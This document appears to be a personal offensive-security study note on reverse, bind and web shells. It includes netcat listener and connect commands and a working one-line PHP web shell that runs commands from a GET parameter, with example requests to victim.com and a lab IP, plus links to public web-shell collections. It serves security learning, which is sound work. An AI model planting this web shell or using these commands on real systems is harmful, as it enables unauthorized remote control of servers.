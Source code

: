 ```yaml
---
sr-due: 2025-06-04
sr-interval: 30
sr-ease: 170
---
```

#offensive_security
#review 

[[../2 - Tags/Offensive|Offensive]] [[../2 - Tags/Tools|Tools]]

Shells are commonly used in cybersecurity to remotely control systems. 

## Shell Overview

A shell is ;; a software that allows us to interact with an OS. In cybersecurity, it is common to refer to a specific shell session an attacker uses when accessing a compromised system. This will allow attacker to execute several different activities such as:

- Remote System Control
- Privilege Escalation
- Data Exfiltration
- Persistence and Maintaining Access
- Post Exploitation Activities
- Access Other System on the Network

## Reverse Shell

Also referred to as a connect back shell is one of the most popular techniques for gaining access to a system in a cyber attack. The connections initiate from the target system to the attacker's machine which helps avoid detection from security appliances.

### How Reverse Shells Work

**Set up a Netcat (nc) Listener**

```
nc -lvnp 443
```

<span style="color:rgb(255, 192, 0)">-l</span> listen
<span style="color:rgb(255, 192, 0)">-v</span> verbose
<span style="color:rgb(255, 192, 0)">-n</span> does not resolve DNS name
<span style="color:rgb(255, 192, 0)">-p</span> port

**Gaining Reverse Shell Access**

Once listener is set up, the attacker will then execute a reverse shell payload. This payload usually abuses the vulnerability or unauthorized access granted by the attacker and executes a command that will expose the shell through the network.

**Attacker Receives the Shell**

Once the above payload is executed, the attacker will receive a reverse shell, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the OS.

## Bind Shell

Binds is;; a port on the compromised system and listen for a connection. When the connection occurs it exposes the shell session so the attacker can execute commands remotely.

This method can be used when outbound connections are not allowed but is less popular than reverse shell because it needs to remain active and listen for detections which can lead to detection

### How Bind Shells Work

**Set Up the Bind Shell on the Target**

Create a bind shell payload. Ports below 1024 need to be executed with elevated privileges so use a port higher than that. 

**Attacker Connects to the Bind Shell**

```
nc -nv TARGET_IP 8080
```

## Shell Listeners

- **Rlwrap** a small utility that uses the GNU readline library to provide editing keyboard and history.
- **Ncat**  is an improved version of Netcat distributed by the NMAP project. It provides extra features, like encryption (SSL).
- **Socat** allows you to create a socket connection between two data sources, in this case, two different hosts.
	- A socket connection is a software endpoint that enables two programs on a network to communicate, acting as a virtual "doorway" for data exchange



## Shell Payloads

A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

## Web Shell

A web shell is a script written in a language supported by a compromised web server that executes commands through the web server itself. A web shell is usually a file containing the code that executes commands and handles files. It can be hidden within a compromised web application or service, making it difficult to detect and very popular among attackers.

### Example PHP Web Shell


```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```


The shell can be saved into a file with the PHP extension, like shell.php, and then uploaded into the web server by the attacker by exploiting vulnerabilities such as **Unrestricted File Upload, File Inclusion, Command Injection**, among others, or by gaining unauthorized access to it. 

After the web shell is deployed in the server, it can be accessed through the URL where the web shell is hosted, in this example http://victim.com/uploads/shell.php. As we observed from the code in shell.php, we need to provide a GET method and the value of the variable cmd, which should contain the command the attacker wants to execute. For example, if we want to execute the command whoami the request to the URL should be:
http://victim.com/uploads/shell.php?cmd=whoami

### Existing Web Shells Available Online

[p0wny-shell](https://github.com/flozz/p0wny-shell) - A minimalistic single-file PHP web shell that allows remote command execution
[b374k shell](https://github.com/b374k/b374k) - A more feature-rich PHP web shell with file management and command execution, among other functionalities
[c99 shell](https://www.r57shell.net/single.php?id=13) - A well-known and robust PHP web shell with extensive functionality
You can find more web shells at: [https://www.r57shell.net/index.php](https://www.r57shell.net/index.php).


http://10.10.142.153:8082/uploads/shell.php?cmd=whoami
